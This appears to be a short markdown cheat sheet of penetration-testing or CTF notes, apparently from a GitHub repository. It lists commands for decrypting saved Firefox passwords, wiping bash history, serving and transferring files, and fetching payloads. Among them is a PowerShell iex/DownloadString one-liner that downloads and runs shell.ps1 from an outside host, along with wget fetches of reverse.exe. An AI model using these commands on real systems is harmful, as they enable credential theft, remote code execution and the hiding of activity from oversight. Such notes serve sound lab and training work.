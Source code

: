 ## Tmux Tutorial
- [https://leimao.github.io/blog/Tmux-Tutorial/](https://leimao.github.io/blog/Tmux-Tutorial/)
## Decrypting Firefox
Make sure the following files are available
- `cert9.db`
- `key4.db`
- `cookies.sqlite`
- `logins.json`
Use tool [firefox_decrypt](https://github.com/unode/firefox_decrypt) to crack the username and password combination
```nix
python3 firefox_decrypt firefox-profile/
```
## Clearing Bash History
```nix
cat /dev/null > ~/.bash_history && history -c && exit
```
## Create HTTP server with Python
```nix
# Python 2
python -m SimpleHTTPServer 8000

# Python 3
python3 -m http.server 8000
```
## Download file using Base64 trick
Convert the file content into Base64 and save it
```nix
cat file.jpg | base64 > file.b64
```
Decode the Base64 content and save it into a proper file
```nix
cat file.b64 | base64 --decode > file.jpg
```
## Mounting a `/dev` directory to `/mnt`
```nix
sudo mount /dev/suspicious_disk /mnt/amogus
```
## Check a binary's content
```nix
strings binary
```
## Download file on machine
Linux
```nix
wget 10.10.10.10/file -O /tmp/file
```
Windows
```powershell
Invoke-WebRequest -uri 10.10.10.10/file.exe -outfile C:\\\\Windows\\temp\\file.exe
```
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('<http://10.10.10.10/shell.ps1>');
```
```powershell
powershell -c wget "<http://10.10.10.10/reverse.exe>" -outfile "reverse.exe"
```
## Using xFreeRDP to access Window Machines
```nix
xfreerdp +clipboard /u:username /p:password /v:10.10.10.10 /size:1280x760
```